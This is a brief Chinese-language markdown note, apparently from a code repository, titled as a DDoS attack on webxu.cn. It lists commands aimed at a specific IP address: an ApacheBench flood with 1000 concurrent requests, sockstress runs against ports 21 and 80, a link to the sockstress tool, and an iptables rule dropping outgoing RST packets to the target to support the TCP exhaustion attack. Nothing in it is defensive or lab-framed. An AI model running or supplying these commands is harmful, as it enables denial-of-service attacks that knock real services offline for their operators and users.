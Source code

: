 ## ddos 攻击 攻击 webxu.cn
1. ab工具
    * ab -n 参数1 -c 参数2 网站地址
    * ab -c 1000 -n 1000 http://8.140.182.127/
    * -n：在测试会话中所执行的请求个数。默认时，仅执行一个请求。
    * -c：一次产生的请求个数。默认是一次一个。

2. python3 ./sockstress.py 8.140.182.127: 21 200

https://blog.csdn.net/weixin_44604541/article/details/105511860
https://github.com/defuse/sockstress.git
./sockstress 192.168.1.119:80 eth0 -p payloads/http 

iptables -A OUTPUT -p TCP --tcp-flags rst rst -d 8.140.182.127 -j DROP
